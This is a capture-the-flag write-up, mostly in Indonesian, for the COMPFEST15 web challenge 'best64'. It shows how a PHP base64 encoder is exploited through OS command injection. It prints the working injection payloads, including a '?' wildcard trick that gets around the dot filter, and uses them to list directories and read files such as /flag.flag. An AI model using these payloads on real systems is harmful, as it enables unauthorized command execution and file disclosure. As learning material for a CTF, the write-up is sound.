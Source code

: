 ## Challenge Name: best64
>Category: Web Exploitation

>Points: 269

>Solves: 38

### Challenge Description: 



Can You? i can only tell you a little bit though
```
function filter($data) {
    $black_list_char = array('"', "'", "\n", "*", "!", ".", "-", "_","@");
    foreach ($black_list_char as $key) {
        $data = str_replace($key, '', $data);
    }
    return $data;
}
```
http://34.101.174.85:10006/


Artifact Files:
-

### Approach

**1. Analyze the Website**

Mari kita coba buka websitenya
![website](best64-1.png)
Hanya website standar yang pakai tailwind. Jika kita input teks maka akan menghasilkan output berupa nilai Base64 dari input tersebut.
![example](best64-2.png)

**2. Find the Exploit**

Kita coba-coba masukkan input. Misal:
```
flag
```
Hasil:
![flag](best64-3.png)
Ke-_encode_ base64 biasa ya...

Hmm coba kita iseng iseng masukin payload kali aja bisa inject kode
```
flag; echo "masuk"
```
Hasil:
![flag; echo "masuk"](best64-4.png)
Bener dong bisa kita inject command. Bentar jangan-jangan ini command nya nembak ke shell bukan ke php? Mari kita coba.
```
masuk ; ls; dummy
```
Dari behaviornya, command pertama akan ke-_echo_, command terakhir akan ke-_encode_, tapi kurang tahu kalo yang ditengah bakal gimana. Mari kita coba!
![masuk ; ls; dummy](best64-5.png)
Jalan dong command yang ditengah. Terlihat disini ada 2 file yakni ```index.php``` dan ```style.css```.

**3. Get the Flag**

Sekarang kita coba lihat isi keduanya kali aja ada flag. Namun kita punya masalah.
```
function filter($data) {
    $black_list_char = array('"', "'", "\n", "*", "!", ".", "-", "_","@");
    foreach ($black_list_char as $key) {
        $data = str_replace($key, '', $data);
    }
    return $data;
}
```
Jika kita ingin lihat isinya, kita perlu memasukkan command seperti:
```
cat index.php
```
Namun, karakter ```.``` akan kena filter jadi kita perlu cari workaround.

Di bagian ini lumyan stuck sampai akhirnya ku ke discord dan nemu hint.

![hint#1](best64-6.png)

Thanks buat **@DimasMaulana** untuk hintnya.

Ku jadi penasaran soal wildcard di linux ada apa aja dan nemu website [ini](https://www.educba.com/linux-wildcards/), lumayan buat ilmu baru.

Selain dapat info soal wildcard, kita juga dapat info kalau command ```cat``` di-_banned_. Namun alternatifnya ada command ```ln``` dan ```tac```. Command ```ln``` berguna untuk ngebuat symling (symbolic link) sedangkan command ```tac``` itu mirip seperti command ```cat``` namun di print nye terbalik dari halaman bawah ke atas.

Dari hint ini speertinya command ```tac``` lebih berguna. Mari kita coba!
```
masuk ; tac index?php; dummy
```
Hasil:
![no fleg](best64-7.png)
Kita dapat html nya, namun tidak ada flag disini. Coba kalau di ```style.css```.
```
masuk ; tac style?css; dummy
```
Hasil:
![no fleg part 2](best64-8.png)
Gak ada flag :sadge:

Kita ```ls``` ke direktori atas gak bakal guna karena
```
ls ??
```
Akan coba lihat isi direktori  ```??```. Tidak berguna.

Hmmm...tunggu, bagaimana kalau kita ke ```root```? berhubung karakter ```/``` gak di-_banned_.
```
masuk ; ls /; dummy
```
![masuk ; ls /; dummy](best64-9.png)
Nah ke list. Coba kita lihat yang menarik. 

Terlihat ada dua entri bernama ```flag``` dan ```flag.flag```. Namun kita tidak tahu ini file atau direktori. Mari kita coba cek. Sama ku penasaran, bisa chaining command gak ya?
```
masuk ; file /flag; file /flag?flag;dummy
```
Hasil:
![masuk ; file /flag; file /flag?flag;dummy](best64-10.png)
Bisa ternyata! ```flag``` itu direktori sedangan ```flag.flag``` itu file. Mari kita coba lihat isi ```flag.flag```.
```
masuk ; tac /flag?flag;dummy
```
![flag](best64-11.png)
Alhamdulillah dapat flagnya! Flagnya adalah:
```
COMPFEST15{c0MManD_1nj3cTI0N_g0es_BrRrRR}
```

### Reflections

Permulaan menarik untuk belajar command injection di PHP, wildcard unix, serta command-command shell tidak biasa.
  

---
[Back to home](../Readme.md)
